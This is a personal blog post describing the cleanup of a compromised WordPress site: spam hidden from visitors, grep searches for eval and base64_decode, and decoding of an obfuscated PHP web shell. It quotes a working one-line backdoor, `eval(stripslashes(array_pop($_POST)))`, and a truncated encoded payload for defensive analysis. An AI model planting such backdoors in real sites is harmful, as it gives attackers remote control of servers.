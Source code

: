 ```yaml
---
title: Hacked Server
date: 2012-08-23 08:23
layout: article
published: true
---
```


Over the weekend I was informed by a friend that a site I maintain (not mine
personally) was showing up in the Google results as being "malicious". While I
was researching and fixing the problem, I wrote down my thoughts.

* * *

After hearing this news, I Googled the site's name (it is distinctive, but
shall remain nameless here) and found that it indeed had been flagged by the
Googlebot as having been hacked.

Short backstory: Recently the owners of the site had undergone some serious flack
from a hate group, and had been flagged by this group on the
[Web Of Trust (WOT)](https://www.mywot.com/), a site that warns you of unsafe
websites. The WOT is a really good idea, but this hate group flagged it in
retaliation instead. Because of this, I initially thought that the warning
from Google had set off their alarms, so I didn't take it too seriously.

But throughout the day I had a nagging feeling that not all was right with the
world, and so I found myself signing up for something that (now that I've used
it) I think everyone who ever runs a website should use:
[Google Webmasters](http://www.google.com/webmasters/).

Let me take a minute to tell you why you should be using this awesome tool. First,
it will give you the actual HTML output that Google sees. As I found out later,
the hacked website was *only displaying spam to the Googlebot*, so I never found
it in my other searches. The other reason you should use this tool is because
it will check the status of your installed things (WordPress, etc.) and notify you
when you need to update them. This is incredibly convenient.

After I setup the site with Google Webmasters, I found out that the site
was spewing out things that look like this (of course I renamed the links):

> `downing <a href="http://site.com">prescription tramadol without</a>`
> `venlafaxine <a href="http://site.com">penegra generic</a>`

I'm being a little bit of an onscurantist about the sites contents, but suffice to
say that this is definitely not the appropriate content for this site, and at that point
I had to deal with the fact that the server had been compromised.

## The Plan

Typically, a WordPress hack is found by searching for two PHP functions:

* [base64_decode](http://php.net/manual/en/function.base64-decode.php), or
* [eval](http://php.net/manual/en/function.eval.php)

So my initial plan was to search the server for instances of either of those functions using:

	grep -H -r -i 'base64_decode' ~/sitename.com
	grep -H -r -i 'eval' ~/sitename.com</pre>

* `-H` will print the filename instead of the entire line of text where it found the match
* `-r` will search recursively
* `-i` will ignore case (since PHP ignores it we need to do so to have a thorough search)

Doing so brought up quite a few `base64_decode` calls, and many false positives for `eval`
but all of them legitimate. Working with the command line over SSH was difficult, so I
tarred the entire site's contents:

	tar cvzf backup.tgz ~/sitename.com

Now I have the files in hand, I can very quickly scan through the files and see if
anything catches my eye, and the very first thing I noticed is the file named `wp_info.php`

WordPress has a very particular naming scheme with all their files, and it looks
like this: `word-word.php` So an underscore looks a little suspicious, and opening
it I find this magical bit:

	`eval(stripslashes(array_pop($_POST)));`

That command right there will essentially run _anything_ that is thrown at it by a
POST request. Wow, this is nuts. Also, I don't know why I didn't see it in
the `grep` earlier, but there was probably just too much noise to notice it.

That right there is the likely entry point _after_ the hack, but I want to see
if I can find anything else, so I press on. Even though I am pretty familiar
with the WordPress structure, I downloaded a [fresh WordPress](https://wordpress.org/download/)
install to compare. After browsing around a bit, I found a file in
the `wp-content/uploads` folder named `.cache_tofu.php` that I did not
recognize, and on inspection I found the following at the end of it:

	`preg_replace("/.*/e","x65x76x61x6c ... x3b",".");`

Where the dots are I removed about 24,400 characters from the actual thing. I'm not familiar
with the `preg_replace` function, but the [PHP docs](http://www.php.net/manual/en/function.preg-replace.php)
say it is basically `preg_replace(pattern,replacement,subject)` so the code above will
interpret to just the middle part `"x65x76x61x6c ... x3b"`

But if you'll notice, quite a few characters in that set look like `x##` which is the PHP way of
noting characters in [extended unicode](http://www.php.net/manual/en/regexp.reference.unicode.php), so
all you need to do is figure out a way to convert those to normal ASCII and you can read them.

`<sarcasm>`Thankfully`</sarcasm>`, PHP [plays loose](https://maurus.net/resources/programming-languages/php/)
with the encoding, so we can simply turn it to a string and it will print out. But because
PHP plays loose, you can't do something as simple as `echo "x65x76x61x6c ... x3b";` because
it will actually evaluate whatever is there, assuming it's an `eval` statement, which is
an obvious assumption at this point. So here's what you do:

	$myFile = "testFile.txt";
	$fh = fopen($myFile, 'w') or die("can't open file");
	$stringData = "x65x76 ... x20x3b";
	fwrite($fh, $stringData);
	fclose($fh);

With that, I finally got what I was looking for: `eval(gzinflate(base64_decode('5b19fxq30jD8...` which
is the standard hack. And now we can unpack the base64 code to see what magic lies
beneath. Again, it probably has some `eval` in it, so just write it to the text file.
Because it uses `gzinflate` we need to do it this way in our above code:
`$stringData = gzinflate(base64_decode('5b19f...` With that, I get a code that is just
over 1,500 lines long: [pastebin](http://pastebin.com/brR6Jh5f) or [hastebin](http://hastebin.com/hipeqoxoho.php).

On reading the code, my jaw hit the floor.

I think I need some alcohol to calm my nerves, just a minute...

* * *

Alcohol acquired, still a little shook up, going to press on and hope for the best.

So where was I? Oh, right. It is interesting to note that, even within this code, there
are things that are base64 encoded. Upon extracting them, it looks like they are Perl
scripts. Here is one which was labeled `back_connect_p`:
[pastebin](http://pastebin.com/7izktDBV) And here is another which was labeled
`bind_port_p`: [pastebin](http://pastebin.com/7yNrfWT0)

Okay, so this is obviously bad, and in more ways than one: 1) have to look
around for more bad files, 2) based on the script, it would be safe to
assume every password associated with this account (servers, etc.) should
be changed, 3) and I still don't know how this got installed.

Let's start on the last thing first.

So we have this absolutely soul crushing code (did you read it yet? did you understand
how bad it was? it was very bad!) but we don't know how it's run. Looking
at the code, I realized that to run it, all you'd have to do is access it. It's located
in the WordPress uploads folder, so we can simply navigate to it at
`site.com/wp-content/uploads/the_file.php` and we get this:

![Password login of control panel](/article/images/hacked-server/password.png)

Hmmmm. The alcohol is setting in a bit now, and I am starting to feel less like the world
will end, so I am curious what is behind the password?

Looking through the code I find that all it takes is this: `if(md5($_POST['pass']) == 'dcc2630fea8d91fbc38ee0acc48001a6')`

Although rainbow tables and so on exist, I don't have any of that software setup
on this computer, so an md5 lookup is not trivial for me. Instead, I boot up the old
[virtual computer](http://www.unixmen.com/install-lamp-with-1-command-in-ubuntu-1010-maverick-meerkat/)
and run the code directly on a PHP server. Here is the screenshot:

![Control panel](/article/images/hacked-server/control-panel.png)

This is terrible.

So here is what we have so far: There is a script on this site that lets a person
pretty much do what they want.

The question remains, how did the script get there in the first place?

Of course, since I don't run the site I am not sure what plugins were installed
before, but I am reasonably certain that the people who own the site wouldn't
install a plugin that didn't come from the [WordPress site](https://wordpress.org/extend/plugins/).

This limits the possible entry points quite a bit.

One weak point in the WP framework shows up if someone changes the folder permissions of one of the
folders. This is addressed quite well in [this](https://codex.wordpress.org/Changing_File_Permissions)
article. But nobody except myself has SSH access, and only one person has FTP access. I'll ask him,
but he seems reasonably smart so he probably wouldn't set stupid permissions.

In fact, I can check whether a file is executable or not using `ls -ls` and I can see that
it is not executable. Furthermore, the file itself was last modified in May this year
(2012), although I don't know how long it's been since it was executed. The site
is hosted on a [shared server space](https://dreamhost.com/), which could
even be the problem.

* * *

At this point I am trying to think of solutions. Since all that's run on this server
is the WordPress install, I can essentially just reinstall the site and verify that
nothing is in the database. The uploads folder can be copied over after I check it.

Being intimately familiar with WordPress I've coached a few people through this
process, and even had to run through it once myself, so I know that it's not too difficult.

Still, the annoyance is huge. And I still don't know what caused the security
breach that allowed that terrible code to get installed.

For tonight I think I have the server locked down enough that I can leave it,
but I think I'll probably reinstall WordPress, it's a pretty fast experience.

## Lesson Learned

You should look for the `eval` function, but you should also look for it in Unicode, which looks like `x65x76x61x6c`
